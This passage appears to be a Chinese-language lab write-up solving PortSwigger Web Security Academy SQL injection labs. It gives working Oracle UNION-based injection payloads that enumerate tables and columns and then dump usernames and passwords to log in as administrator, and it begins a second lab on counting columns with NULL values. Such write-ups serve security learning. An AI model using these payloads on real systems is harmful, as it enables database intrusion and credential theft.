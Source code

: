 ### Solution
> [!NOTE]
> :brain: 思考邏輯:\
>題目要求使用 UNION attack 檢索，並使用administrator登入。所以先確認UNION SELECT 可以運作，UNION直接查詢失敗，因此透過dual。成功後查詢 all_tables 看 table 內容 ， 在USERS_BQWGCF table中找到 PASSWORD_WJKNLN 、 USERNAME_TLMZIY，最後在以上兩個column中找到administrator。

#### 1. /filter?category=Lifestyle'+UNION+SELECT+'dev','core'+FROM+dual--
![image](https://hackmd.io/_uploads/BJVWjiftT.png)
![image](https://hackmd.io/_uploads/rJgfsoMFT.png)
#### 2. /filter?category=Lifestyle'+UNION+SELECT+table_name,NULL+FROM+all_tables--
![image](https://hackmd.io/_uploads/SkLrisGK6.png)
![image](https://hackmd.io/_uploads/HyDKssMF6.png)
> Find USERS_BQWGCF

#### 3. /filter?category=Lifestyle'+UNION+SELECT+column_name,NULL+FROM+all_tab_columns+WHERE+table_name='USERS_BQWGCF'--
![image](https://hackmd.io/_uploads/rJay2izF6.png)
![image](https://hackmd.io/_uploads/r1senoftp.png)
> Find PASSWORD_WJKNLN & USERNAME_TLMZIY

#### 4. /filter?category=Lifestyle'+UNION+SELECT+USERNAME_TLMZIY,+PASSWORD_WJKNLN+FROM+USERS_BQWGCF
![image](https://hackmd.io/_uploads/ryJ93jGFT.png)
![image](https://hackmd.io/_uploads/Skac3sGFp.png)

### Solved
LOGIN
![image](https://hackmd.io/_uploads/rJhRnifFa.png)
![image](https://hackmd.io/_uploads/BkxlaizF6.png)

## Lab: SQL injection UNION attack, determining the number of columns returned by the query
![image](https://hackmd.io/_uploads/BJD7ToGtp.png)
https://0a6e00ec03296628809ef36d00e800ff.web-security-academy.net/
![image](https://hackmd.io/_uploads/BknHasfKT.png)

### Solution
> [!NOTE]
> :brain: 思考邏輯:\
>題目要求使用 null values 來確認 column數量。所以先確認塞入 NULL 回應500，繼續增加空值，直到Error 消失。
